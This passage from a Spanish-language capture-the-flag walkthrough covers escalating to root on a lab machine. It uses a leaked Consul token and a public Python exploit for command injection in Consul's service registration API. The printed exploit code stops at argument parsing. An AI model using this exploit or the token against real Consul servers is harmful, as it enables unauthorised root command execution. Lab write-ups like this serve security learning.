 Si volvemos a ejecutar `consul members` pero especificándole el *token* anterior, de la manera `consul members --token bb03b43b-1d81-d62b-24b5-39540ee469b5`, obtendremos información sobre cada uno de los nodos que forman parte del *cluster*:

```bash
developer@ambassador:/opt/my-app/whackywidget$ consul members -token=bb03b43b-1d81-d62b-24b5-39540ee469b5
Node        Address         Status  Type    Build   Protocol  DC   Partition  Segment
ambassador  127.0.0.1:8301  alive   server  1.13.2  2         dc1  default    <all>
```

En este caso, se muestra un solo nodo con el nombre *ambassador* que se encuentra en la dirección IP *127.0.0.1* y el puerto *8301* y su estado es *alive*.

### Consul RCE via Services API

Investigando en Internet alguna vía de escalada de privilegios a través de *Consul*, encuentro un [exploit](https://github.com/owalid/consul-rce) que explota una vulnerabilidad de **inyección de comandos en *Consul Api Services***. 

*"La vulnerabilidad existe en el parámetro ServiceID del endpoint de la API PUT /v1/agent/service/register. El parámetro ServiceID se utiliza para registrar un servicio con el agente Consul. El parámetro ServiceID no se sanitiza y permite la inyección de comandos."*

Por lo tanto, podríamos ejecutar comandos como el usuario que está corriendo la herramienta. El comando `ps -faux` nos muestra que *root* es el usuario que está corriendo *Consul*:

```bash
[...]
root        1088  0.3  3.9 795636 78268 ?        Ssl  06:23   1:18 /usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl
root        1095  0.0  0.1   6816  2984 ?        Ss   06:23   0:00 /usr/sbin/cron -f
[...]
```

El *exploit* es el [siguiente](https://github.com/owalid/consul-rce/blob/main/consul_rce.py):

```python
'''
- Author:      @owalid
- Description: This script exploits a command injection vulnerability in Consul
'''

import requests
import argparse
import time
import random
import string

def get_random_string():
    letters = string.ascii_lowercase
    return ''.join(random.choice(letters) for i in range(15))

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-th", "--target_host", help="Target Host (REQUIRED)", type=str, required=True)
    parser.add_argument("-tp", "--target_port", help="Target Port (REQUIRED)", type=str, required=True)
    parser.add_argument("-c", "--command", help="Command to execute (REQUIRED)", type=str, required=True)
    parser.add_argument("-s", "--ssl", help="SSL", type=bool, required=False, default=False)
    parser.add_argument("-ct", "--consul-token", help="Consul Token", type=str, required=False)

    args = parser.parse_args()
    protocol = "https" if args.ssl else "http"
    url = f"{protocol}://{args.target_host}:{args.target_port}"
    consul_token = args.consul_token
```
